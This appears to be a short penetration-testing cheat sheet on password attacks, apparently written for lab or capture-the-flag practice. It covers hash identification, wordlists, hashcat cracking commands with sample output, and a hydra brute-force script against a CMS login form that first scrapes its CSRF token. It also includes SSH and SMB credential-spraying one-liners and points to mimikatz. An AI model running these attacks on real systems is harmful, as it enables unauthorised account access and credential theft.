 # Password Attacks Main
[TOC]
###### tags: `security` `PasswordAttack`

# Hash Identify
## hash-identifier
* [GitHub](https://github.com/blackploit/hash-identifier)
# Wordlist
* /usr/share/wordlist
* /usr/share/wfuzz/wordlist
* /usr/share/golismero/wordlist
* /usr/share/dirb/wordlist

## crunch
產字典檔

# Cracker
## hashcat

### CheatSheet
```
-a [Attack Modes]
hashcat -a 0 -m 0 example0.hash example.dict -r rules/best64.rule
hashcat -a 3 -m 0 example0.hash ?a?a?a?a?a?a
```
### Find Hash Type
```
hashcat --example-hashes | grep -A 2 -B 1 MySQL
MODE: 200
TYPE: MySQL323
HASH: 7196759210defdc0
PASS: hashcat
--
MODE: 300
TYPE: MySQL4.1/MySQL5
HASH: fcf7c1b8749cf99d88e5f34271d636178fb5d130
PASS: hashcat
```
### Crack
```
.\hashcat64.exe -m 300 Z:\temporary_share\mysql.DBadmin ..\rockyou.txt
2d2b7a5e4e637b8fba1d17f40318f277d29964d0:imissyou
```


## hydra
Very fast network logon cracker `FTP、HTTP、HTTPS、MySQL、MS SQL、Oracle、Cisco、IMAP、VNC`

```
<form method="POST" action="http://192.168.23.43/october/backend/backend/auth/signin" accept-charset="UTF-8"><input name="_session_key" type="hidden" value="ycAQqg2iO9JcC5htu7hAQfjuU5O40woSuzFToJru"><input name="_token" type="hidden" value="DVnX6bPdshG2fTBv15ziHFCinYUGwzoXXLWYa2cS">    <input type="hidden" name="postback" value="1" />
```
```
_session_key=QK2TDe7JBjSXtMe7BsB5LIvu1olwJ9DligCAGb9b&_token=tapg9kGUfJGIRgmeO8i8THMgVlFouvl5Ipsah0Oc&postback=1&login=fyodor&password=AAAA
```
```
SESSIONKEY=$(curl -s "http://192.168.23.43/october/backend/backend/auth/signin" | grep "POST" | tee post_form | awk -F 'value=' '{print $2}' | awk -F '"' '{print $2}')
CSRF=$(cat post_form | awk -F 'value=' '{print $3}' | awk -F '"' '{print $2}')
hydra -l fyodor -P /usr/share/wordlists/rockyou.txt 192.168.23.43 http-post-form "/october/backend/backend/auth/signin:_session_key=${SESSIONKEY}&_token=${CSRF}&postback=1&login=^USER^&password=^PASS^:F=did not match"
```

python3 script: https://www.youtube.com/watch?v=d2nVDoVr0jE

* `hydra -L users.txt -P passwords.txt ssh://10.10.10.184`

## John the Ripper

## CrackMapExec
* `crackmapexec smb 10.10.10.184 -u users.txt -p passwords.txt`

# Others
## [mimikatz](https://github.com/gentilkiwi/mimikatz)
Windows - Password stealing